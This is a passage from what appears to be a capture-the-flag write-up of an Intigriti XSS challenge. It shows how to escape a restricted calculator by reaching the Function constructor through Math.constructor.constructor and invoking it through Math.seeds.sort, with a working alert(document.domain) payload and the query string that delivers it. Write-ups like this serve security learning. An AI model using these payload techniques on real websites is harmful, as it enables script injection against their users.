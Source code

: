 You see the constructor of the `Math` object is `Object` function and since it’s a function the constructor would be our `Function()` We could’ve also done something like `Math.abs.constructor`. Any function would have that `Function` as its constructor I guess.

Since we could only use the form `f1(f2)` we need some other function that will call our anonymous created function. We have bunch of these in JavaScript, but in our case we are limited. We have an example of a function that would call another function is the <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/sort" target="_blank">sort()</a> array method. How do we get this you would say? Well remember we have the seeds array integrated with the `Math` Object so we could just do `Math.seeds.sort` to access to this method. An example of a payload would be then

```js
Math.seeds.sort(Math.constructor.constructor('alert(document.domain)'))
```

Executing this from the Chrome Dev Tools we will pop an alert.

![PopUp Alert From DevTools](/static/images/intigriti-0823/pop_alert_dev_tools.png)

Inputting that into the calculator would be of the form

```
?q=Math.constructor.constructor,Math.seeds.sort
```

Now the real problem is how to create the string `alert(document.domain)` to pass it as an argument to the `Function()`.

### How to form the string we want then?

We have some math functions that we could use to form some integers that might be useful. You ask how is this going to be useful? A thought that came to my mind after some time, and by knowing that there are some available strings that we could use we could get the desired characters with the String method `charAt` and generated the integer for the index. For example, `"ASDF".charAt(0)` would return the `A` character. **After having that character we could push it to the seeds array then we could join that array to form the string we want.** For example some JS object properties have names assigned to them. If we look at the `Math` object we could understand this fact.

```js
> Math
< Math {seeds: Array(5), abs: ƒ, acos: ƒ, acosh: ƒ, asin: ƒ, …}
<	seeds: (5) [0.62536, 0.458483, 0.544523, 0.323421, 0.775465]
<	E: 2.718281828459045
<	LN2: 0.6931471805599453
<	LN10: 2.302585092994046
<	LOG2E: 1.4426950408889634
<	LOG10E: 0.4342944819032518
<	PI: 3.141592653589793
<	SQRT1_2: 0.7071067811865476
<	SQRT2: 1.4142135623730951
<	abs: ƒ abs()
<		length: 1
<		name: "abs"
<		arguments: (...)
<		caller: (...)
<		[[Prototype]]: ƒ ()
<		[[Scopes]]: Scopes[0]
<	acos: ƒ acos()
```
